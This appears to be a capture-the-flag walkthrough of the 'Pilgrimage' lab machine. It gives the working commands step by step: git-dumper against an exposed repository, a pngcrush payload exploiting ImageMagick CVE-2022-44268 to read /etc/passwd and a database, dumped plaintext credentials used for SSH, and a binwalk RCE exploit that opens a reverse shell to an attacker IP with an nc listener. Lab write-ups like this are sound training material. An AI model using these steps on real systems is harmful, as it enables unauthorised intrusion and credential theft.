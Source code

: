 # Recon

~~~
nmap -sCV 10.10.11.219
~~~

~~~
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-25 04:48 IST
Nmap scan report for pilgrimage.htb (10.10.11.219)
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20be60d295f628c1b7e9e81706f168f3 (RSA)
|   256 0eb6a6a8c99b4173746e70180d5fe0af (ECDSA)
|_  256 d14e293c708669b4d72cc80b486e9804 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Pilgrimage - Shrink Your Images
|_http-server-header: nginx/1.18.0
| http-git: 
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.74 seconds
~~~


I browsed the IP 10.10.11.219

Got "pilgrimage.htb"

![[Pasted image 20230625044652.png]]
In starting i thought it was some file upload vulnerability..!!

Yeah that is right.!!

Before that i go with further enumeration..!!

![[Pasted image 20230625045045.png]]

So found some .git repos,

I used git-dumper for further enumeration..!

Reference Link : https://github.com/arthaud/git-dumper

~~~
python3 git_dumper.py http://pilgrimage.htb/ git
~~~


There i found so many intresting files...

![[Pasted image 20230625045421.png]]
~~~
function fetchImages() {
  $username = $_SESSION['user'];
  $db = new PDO('sqlite:/var/db/pilgrimage');
  $stmt = $db->prepare("SELECT * FROM images WHERE username = ?");
  $stmt->execute(array($username));
  $allImages = $stmt->fetchAll(\PDO::FETCH_ASSOC);
  return json_encode($allImages);
~~~

I saw this function inside dashboard.php , Which  is sqlite server..!!

I can see the DB Path ..!

By anlyzing the source code ,I  can find magic with `ImageMagick 7.1.0-49`

By searching vulnerabilities in google found

![[Pasted image 20230625101459.png]]

I used  pngcrush tool for exploiting this vulnerability,

Reference Link : https://www.vicarius.io/blog/cve-2022-44268-arbitrary-remote-leak-in-imagemagick

~~~
pngcrush -text a "profile" "/var/db/pilgrimage" index.png
~~~

Here 

This is the DB path for testing i checked for /ect/passwd first .

By uploading the `pngout.png` file (The output file)

We will get the shrink image by downloading that..!!

By using `identify` , we can get get thier  hex data.

~~~
identify -verbose 6497616666d86.png 
~~~

![[Pasted image 20230625102536.png]]

By converting from hex to string , i can read 

![[Pasted image 20230625102628.png]]

Like that we can readDB file , by changing file path..!!

Also downloading the file by naming .sqlite

we can analyze that by using `sqlite3`

~~~
sqlite3 htb.sqlite
~~~

~~~
.tables
~~~~

~~~
SELECT * FROM users;
~~~

~~~
emily|abigchonkyboi123
admin|admin
nasu|nasu
taf|taf
test|test
sadsadasd|sadasdasd
sadsad|sadasasd
sads'sadasdsadsadsa|sadasasd
sads' or '1'='1-- -sadasdsadsadsa|sadasasd
kar|olis
nasu1|nasu
asd|asd
~~~

![[Pasted image 20230625103104.png]]

Here by reading /etc/passwd i also saw that emily ...!!! Got SSH i think..!!

~~~
emily : abigchonkyboi123
~~~

~~~
sudo ssh emily@pilgrimage.htb
~~~

![[Pasted image 20230625103311.png]]
got user..!!

![[Pasted image 20230625103349.png]]

So it's time to upload `linpeas`

Found some suspicious file .!!

~~~
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
~~~

It is time to exploit binwalk..!!

~~~
Binwalk v2.3.2 - Remote Command Execution (RCE)
~~~

Reference Link : https://www.exploit-db.com/exploits/51249

~~~
python3 51249.py file.sh 10.10.15.6 7890
~~~

we will get `binwalk_exploit.png`

~~~
mv binwalk_exploit.png shell.sh
~~~

Start python3 server in out machine.!!

~~~
sudo python3 -m http.server 80
~~~

![[Pasted image 20230625104358.png]]

We have to import in the path `var/www/pilgrimage.htb/shrunk`

~~~
chmod +x shell.sh
~~~

Before that  setup listener,

~~~
nc -lvnp 7890
~~~

Now run it in the victim machine,

~~~
./shell.sh
~~~~

![[Pasted image 20230625104613.png]]

Yes we rooted the machine..!!!
